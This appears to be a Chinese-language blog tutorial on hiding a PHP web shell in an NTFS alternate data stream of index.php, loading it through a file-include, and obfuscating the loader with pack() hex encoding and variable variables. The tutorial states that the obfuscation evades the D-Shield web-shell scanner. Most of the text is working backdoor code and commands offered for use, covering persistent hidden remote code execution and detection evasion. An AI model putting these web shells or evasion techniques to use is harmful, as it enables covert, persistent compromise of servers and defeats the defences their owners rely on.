



<!--more--> 
# 0x01 NTFS 流隐藏写入文件
> 利用ntfs格式的数据流来隐藏文件，必须是在ntfs格式的分区上，一旦复制到fat或fat32上，则数据流被清除，隐藏文件丢失！ 
>

在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞： 

`echo ^<?php @eval($_GET['chopper']);?^> > index.php:hidden.jpg`

这样子就生成了一个不可见的 shell hidden.jpg，

常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。 

```shell
问题1：如何查看index.php:hidden.jpg内容呢？ 

进入文件所在目录，notepad index.php:hidden.jpg   或者 dir /r 　

问题2：如何删除index.php:hidden.jpg？

直接删除index.php即可
```

当然我们也可以使用 `type`

`type test.php > index.php:hidden.jpg`



# 0x02 利用文件包含执行脚本
在测试过程中，我先 `notepad index.php:hidden.jpg` 掉出编辑

输入 `<?php system($_GET['a']);` 并保存

在目录下面新建 `test.php` 并输入文件包含的代码 

`<?php include('index.php:hidden.jpg')?>`



如果文件夹下 `test.php` 因权限等原因不能被解析执行，也可以放到其他目录，只需要修改导入的路径即可



这种代码引入很容易就给查杀到了。


# 0x03 免杀
在某次应急响应事件中，获取到一段代码，这里拿来改造一下。代码如下：

```shell
<?php
	@include(PACK('H*','xx'));
?>
```

> PHP pack() 函数 函数介绍：[http://www.w3school.com.cn/php/func_misc_pack.asp](http://www.w3school.com.cn/php/func_misc_pack.asp)
>

将 index.php:hidden.jpg 进行 hex 编码

可以使用这个网站进行 hex 编码解码 [https://www.107000.com/T-Hex/](https://www.107000.com/T-Hex/)

`<?php @include(PACK('H*','696E6465782E7068703A68696464656E2E6A7067'));?>`

再次用D盾_web查杀进行扫描，还是被查到了。

进一步利用PHP 可变变量进行二次转换，最后得到绕过D盾扫描的姿势如下：

```shell
<?php 
	$a="696E6465782E7068703"."A68696464656E2E6A7067";
	$b="a";
	include(PACK('H*',$$b))
?>
```


